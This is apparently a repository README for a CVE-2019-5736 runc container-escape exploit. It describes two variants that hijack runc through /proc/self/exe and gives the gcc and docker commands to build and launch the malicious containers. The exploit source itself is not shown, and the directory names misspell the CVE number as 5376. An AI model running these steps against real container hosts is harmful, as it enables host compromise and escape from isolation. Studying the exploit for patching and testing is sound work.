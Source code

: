 ### Exploit for CVE-2019-5736 

#### Version 1 (original from [DragonSector](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html))
use a malicious.so(which used by runc) with  malicious entry point (like #!/proc/self/exe) to hijack the execution of runc, and then open '/proc/self/exe' to hold the file descriptor. Then fork-exec to run another process, and the child process will inherit the file descriptor.  Finally, the child process is able to write to the fd after the runc exits.

> Notes:

> do not need privileged container;

> need a malicious entry point program. It's no problem for ```docker run```, but ```docker exec``` has to run that specific program.


* build and run 

		cd CVE-2019-5376/v1
		gcc run.c -o run -static
		gcc run.c -o libseccomp.so.2 -shared -fPIC
		docker build -t cve-2019-5376-v1 .
		docker run cve-2019-5376-v1


#### Version 2
start the malicious container first, and run a process (in a loop) to monitor new processes in /proc. On finding a new one, open  '/proc/{pid}/exe' to hold the file descriptor. Then it's the same like above.

> Notes:

> need privileged container

> works on every ```docker exec``` command towards the container, but will not work when using ```docker run``` to start the new container

* build and run 

		cd CVE-2019-5376/v2
		gcc run.c -o run -static
		docker build -t cve-2019-5376-v2 .
		docker run -it --privileged --name test_instance cve-2019-5376-v2
		
		# open another terminal, and run docker exec
		docker exec -it test_instance bash
---- 
